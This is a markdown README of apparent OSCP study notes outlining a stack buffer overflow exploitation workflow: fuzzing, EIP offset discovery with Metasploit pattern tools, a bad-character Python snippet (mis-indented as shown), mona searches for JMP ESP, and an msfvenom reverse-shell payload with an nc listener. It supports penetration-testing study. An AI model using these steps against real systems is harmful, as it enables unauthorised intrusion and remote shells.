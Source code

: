 # Buffer Oveflow

See [V1n1v131r4-Scripts](/Scripts/4-Buffer-Overflow/V1n1v131r4-Scripts/README.md) for more appropriate example scripts

## Identify Overflow Length

> 1. Attach debugger
> 2. Run fuzzer script
> 3. Run confirm-overflow script

## Control EIP

> 1. Create pattern: `msf-pattern_create -l <length>`
> 2. Run locate-offset script
> 3. Locate offset: `msf-pattern_offset -l <length> <eip-value>`
> 4. Run verify-offset script

## Locate Space for Shellcode

> 1. Run increase-overflow script to attempt increasing overflow size
> 2. If successful, run bad-char script
>
> - On the debug machine, we can generate a file which contains the same list of badchars with the help of python:
>
> ```python
> badchar_test = ""
>   badchars = [0x00, 0x0A, 0xAD]
>   for i in range(0x00, 0xFF+1):
>   	  if i not in badchars:
>        badchar_test += chr(i)
>   with open("badchar_test.bin", "wb") as f:
>      f.write(badchar_test)
> ```
>
> - Now, we can compare the contents of stack pointed by esp and the file using mona module:
>
>   `!mona compare -a esp -f C:\Python27\badchar_test.bin`

## Find Return Address

> 1. Locate module w/ least memory protection: mona.py `!mona modules`
> 2. JMP ESP hex: `msf-nasm_shell > jmp esp` (FFE4)
> 3. Locate JMP ESP w/ no bad chars: mona.py `find -s "\xff\xe4" -m "<dll module>"`
> 4. Run verify-jmp-esp script

## Getting Shell

> 1. Generate payload: `msfvenom -p <payload> LHOST=<ip> LPORT=<port> EXITFUNC=thread -f <format> -e x86/shikata_ga_nai -b "<bad-chars> (e.g. \x00\x0a\x0d\x25\x26\x2b\x3d)"`
> 2. Run listener: `sudo nc -nvlp <port>`
> 3. Run exploit script

## Cheatsheets

> - [Tib3rius/Pentest-Cheatsheets](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst)
> - [V1n1v131r4/OSCP-Buffer-Overflow](https://github.com/V1n1v131r4/OSCP-Buffer-Overflow)
> - [Liodeus](https://liodeus.github.io/2020/09/18/OSCP-personal-cheatsheet.html)
